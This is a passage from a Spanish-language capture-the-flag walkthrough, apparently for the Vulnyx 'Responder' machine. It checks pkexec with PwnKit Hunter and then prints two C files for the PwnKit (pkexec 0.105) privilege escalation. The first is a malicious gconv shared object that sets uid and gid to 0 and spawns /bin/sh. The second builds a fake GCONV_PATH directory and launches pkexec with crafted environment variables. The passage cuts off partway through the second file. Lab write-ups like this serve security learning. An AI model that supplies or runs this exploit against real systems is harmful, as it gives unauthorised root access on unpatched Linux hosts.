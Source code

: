 Antes nada compruebo que pkexec es vulnerable... lanzo un script en python llamado Pwnkit Hunter

[Pwnkit Hunter](https://github.com/cyberark/PwnKit-Hunter)

![](/assets/images/VULNYX/Responder-Vulnyx/pwnkit-hunter.webp)

Como vemos es vulnerable, por lo que buscando encuentro un exploit que me puede servir.

[Pkexec 0.105](https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html)

Para ello sigo estos pasos:

> Crear archivo evil-so.c y exploit.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);

    execve("/bin/sh", NULL, NULL);
}
```


```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };

    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);

    execve(BIN, argv, envp);

```